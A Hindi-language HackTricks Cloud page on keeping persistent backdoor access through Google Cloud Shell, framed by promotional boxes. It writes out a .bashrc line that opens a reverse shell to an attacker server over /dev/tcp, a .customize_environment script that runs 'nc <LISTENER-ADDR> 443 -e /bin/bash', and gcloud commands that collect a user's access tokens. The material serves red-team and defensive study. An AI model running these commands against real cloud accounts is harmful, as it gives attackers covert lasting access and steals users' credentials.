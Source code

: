 # GCP - क्लाउड शैल परिस्थिति

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ जीरो से हीरो तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** द्वारा PRs सबमिट करके [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) को।
*
*
*
* &#x20;github repos.

</details>

## क्लाउड शैल

अधिक जानकारी के लिए देखें:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### स्थायी बैकडोर

[**Google Cloud Shell**](https://cloud.google.com/shell/) आपको अपने क्लाउड संसाधनों तक ब्राउज़र से सीधे कमांड लाइन एक्सेस प्रदान करता है बिना किसी जुड़े लागत के।

आप Google के क्लाउड शैल तक पहुंच सकते हैं **वेब कंसोल** से या **`gcloud cloud-shell ssh`** चला कर।

इस कंसोल में हमलावरों के लिए कुछ दिलचस्प क्षमताएं हैं:

1. **किसी भी Google उपयोगकर्ता को Google Cloud तक पहुंचने की अनुमति** होती है, एक पूरी तरह से प्रमाणित क्लाउड शैल इंस्टेंस (सर्विस अकाउंट्स, संगठन के मालिक होने के बावजूद भी) तक पहुंच होती है।
2. यदि कोई गतिविधि नहीं होती है तो उक्त इंस्टेंस **कम से कम 120 दिनों तक अपने होम निर्देशिका को बनाए रखेगा**।
3. उस इंस्टेंस की गतिविधि का **कोई संगठन निगरानी करने की क्षमता नहीं** है।

यह मुख्य रूप से यह अर्थ करता है कि एक हमलावर उपयोगकर्ता के होम निर्देशिका में एक बैकडोर रख सकता है और जब तक उपयोगकर्ता कम से कम 120 दिनों के अंतराल में GC शैल से कनेक्ट करता है, बैकडोर बना रहेगा और हमलावर को हर बार जब भी यह चलाया जाता है, शैल मिलेगा बस इसे करके:
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

होम फ़ोल्डर में एक और फ़ाइल है जिसका नाम **`.customize_environment`** है, यदि यह मौजूद है, तो यह **हर बार चलाया जाएगा** जब उपयोगकर्ता **क्लाउड शैल** तक पहुंचता है (पिछली तकनीक में की तरह)। बस पिछले बैकडोर को डालें या निम्नलिखित जैसा एक बैकडोर डालें ताकि उपयोगकर्ता "अक्सर" क्लाउड शैल का उपयोग करता है तब तक स्थिरता बनी रहे:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
यह जरूरी है कि **पहली बार जब प्रमाणीकरण की आवश्यकता होती है तो**, तो उपयोगकर्ता के ब्राउज़र में एक पॉप-अप अधिकारीकरण विंडो दिखाई देती है। इस विंडो को स्वीकार करना आवश्यक है ताकि कमांड चल सके। अगर अप्रत्याशित पॉप-अप दिखाई देता है, तो यह संदेह उत्पन्न कर सकता है और संभावित रूप से उपयोग किया जा रहा स्थायित्व विधि को क्षति पहुंचा सकता है।
{% endhint %}

यह उपयोगकर्ता सत्र में देखा गया है कि क्लाउड शैल (हमलावार) से `gcloud projects list` को निष्पादित करने पर पॉप-अप है:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

हालांकि, अगर उपयोगकर्ता ने सक्रिय रूप से क्लाउडशैल का उपयोग किया है, तो पॉप-अप नहीं दिखाई देगा और आप **उपयोगकर्ता के टोकन इकट्ठा कर सकते हैं**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### कैसे SSH कनेक्शन स्थापित होता है

मुख्य रूप से, इन 3 API कॉल का उपयोग किया जाता है:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (यह आपको अपनी स्थानीय रूप से बनाई गई आपकी सार्वजनिक कुंजी जोड़ने पर मदद करेगा)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (यह आपको उदाहरण चालू करने पर मदद करेगा)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (यह आपको गूगल क्लाउड शैल का आईपी बताएगा)

लेकिन आप [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key) में अधिक जानकारी पा सकते हैं।

## संदर्भ

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी कंपनी का विज्ञापन देखना चाहते हैं **HackTricks** में या **HackTricks को PDF में डाउनलोड** करना चाहते हैं तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर **फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) को PR जमा करके
*
*
* &#x20;github repos.

</details>
